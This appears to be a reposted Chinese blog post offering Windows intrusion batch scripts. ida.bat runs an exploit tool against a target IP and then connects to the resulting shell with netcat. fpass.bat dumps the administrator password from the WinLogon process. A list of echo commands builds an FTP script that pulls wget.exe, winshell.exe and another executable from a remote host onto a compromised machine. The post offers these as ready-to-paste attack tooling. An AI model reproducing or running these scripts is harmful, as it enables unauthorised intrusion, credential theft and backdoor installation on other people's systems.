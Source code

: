 :SP2
@idahack.exe %1 80 %2 99 %temp%_tmp
@type %temp%_tmp
@find “good luck 😃” %temp%_tmp
@if NOT errorlevel 1 nc.exe %1 99
@goto END

:USAGE
@echo Example: ida.bat IP
@echo Example: ida.bat IP (2,3)

:END
ida.bat__END____________

下面我们再来第二个文件.就是得到administrator的口令.
大多数人说得不到.其实是自己的没有输入正确的信息.

fpass.bat_________________
@rem ver 1.0
@if NOT exist %windir%system32findpass.exe echo “ERROR: dont find findpass.exe”
@if NOT exist %windir%system32pulist.exe echo “ERROR: dont find pulist.exe”

@echo start…
@echo ____________________________________
@if “%1”=="" goto USAGE
@findpass.exe %1 %2 %3 >> %temp%_findpass.txt
@echo “prog exit code [%errorlevel%] findpass.exe”
@type %temp%_findpass.txt
@echo ________________________________Here__pass★★★★★★★★
@ipconfig /all >>%temp%_findpass.txt
@goto END

:USAGE
@pulist.exe >%temp%_pass.txt
@findstr.exe /i “WINLOGON explorer internat” %temp%_pass.txt
@echo “Example: fpass.bat %1 %2 %3 %4 !!!”
@echo “Usage: findpass.exe DomainName UserName PID-of-WinLogon”

:END
@echo " fpass.bat %COMPUTERNAME% %USERNAME% administrator "
@echo " fpass.bat end [%errorlevel%] !"
fpass.bat___END_______________________

还有一个就是已经通过telnet登陆了一个远程主机.怎样上传文件(win)
依次在窗口输入下面的东西. 当然了也可以全部拷贝.Ctrl+V过去. 然后就等待吧!!

echo open 210.64.x.4 3396>w
echo read>>w
echo read>>w
echo cd winnt>>w
echo binary>>w
echo pwd >>w
echo get wget.exe >>w
echo get winshell.exe >>w
echo get any.exe >>w
echo quit >>w
ftp -s:w
————————————————
版权声明：本文为CSDN博主「Regent Wan」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/Zeno_wrj/article/details/107117374